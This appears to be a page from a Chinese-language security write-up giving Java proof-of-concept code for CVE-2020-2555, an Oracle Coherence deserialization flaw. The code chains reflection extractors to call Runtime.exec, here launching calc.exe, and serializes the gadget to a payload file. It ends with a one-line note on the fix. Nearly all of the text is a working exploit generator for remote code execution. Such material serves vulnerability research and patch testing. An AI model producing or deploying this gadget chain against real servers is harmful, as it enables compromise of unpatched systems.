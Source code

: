 ```java
import com.tangosol.util.ValueExtractor;
import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import com.tangosol.util.filter.LimitFilter;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;

public class CVE_2020_2555 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        //String cmd = "touch /tmp/CVE_2020_2555_12013";
        String cmd ="calc.exe";
        ValueExtractor[] valueExtractors = new ValueExtractor[]{
                new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[0]}),
                new ReflectionExtractor("invoke", new Object[]{null, new Object[0]}),
                //new ReflectionExtractor("exec", new Object[]{new String[]{"/bin/bash", "-c", cmd}})
                new ReflectionExtractor("exec", new Object[]{new String[]{"cmd.exe", "/c", cmd}})
        };
        // chain
        LimitFilter limitFilter = new LimitFilter();
        limitFilter.setTopAnchor(Runtime.class);
        BadAttributeValueExpException expException = new BadAttributeValueExpException(null);
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, new ChainedExtractor(valueExtractors));
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, Runtime.class);
        Field val = expException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(expException, limitFilter);
        ser(expException, "./CVE_2020_2555_12013.ser");
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }
    
}
```

### 修复

删了extractor.extract
